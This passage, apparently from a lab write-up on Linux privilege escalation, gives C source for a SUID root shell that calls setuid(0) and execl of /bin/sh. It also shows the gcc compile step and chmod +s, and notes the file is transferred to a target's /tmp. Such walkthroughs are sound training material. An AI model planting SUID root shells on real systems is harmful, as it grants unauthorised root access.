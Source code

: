 
- We can now create an executable that, when run, will launch /bin/sh on the target system. I added the line `#include <unistd.h>` at the top of the code, as it is required for the program to compile correctly on Unix-like systems. This header provides the necessary declarations for system calls like setuid(), setgid(), and execl().

![create executable](../../images/screenshots/linux-privilege-escalation/task11/create-executable.png)

```
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    execl("/bin/sh", "sh", NULL);
    return 0;
}
```


- Then make sure you're a root user by typing `whoami` if you're not root, type `sudo -i`, then we compile our file:

`gcc <FILENAME>.c -o <OUTPUT_FILENAME> -w`

![compile the executable](../../images/screenshots/linux-privilege-escalation/task11/compile-executable.png)


- Set the SUID bits:

`chmod +s <FILENAME>`

![set file permissions](../../images/screenshots/linux-privilege-escalation/task11/set-suid-bits.png)


- We should now see the file transfered onto the target machine in the /tmp directory.

![transfer complete](../../images/screenshots/linux-privilege-escalation/task11/transfer-complete.png)
